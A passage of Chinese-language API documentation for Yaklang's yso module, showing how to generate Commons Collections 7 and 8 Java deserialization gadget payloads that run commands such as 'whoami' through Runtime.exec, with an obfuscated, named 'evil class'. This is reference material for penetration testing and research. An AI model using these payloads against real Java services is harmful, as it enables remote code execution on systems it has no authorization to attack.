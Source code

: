 ## 示例代码

### 基础用法

假设的命令字符串为'ls'，生成Java对象并输出十六进制payload。

```yaklang
command := 'ls'
javaObject, _ := yso.GetCommonsCollections7JavaObject(command)
gadgetBytes, _ := yso.ToBytes(javaObject)
hexPayload := codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```

## 30. `yso.GetCommonsCollections8JavaObject`

## 功能描述

基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。用户可以通过提供额外的配置函数定制生成的Java对象的特定属性或行为。

## 参数说明

```
func GetCommonsCollections8JavaObject(options ...GenClassOptionFun) => (*JavaObject, error)
```

**请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，使用Runtime Exec方法执行命令，并指定恶意类的名称

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsCollections8JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
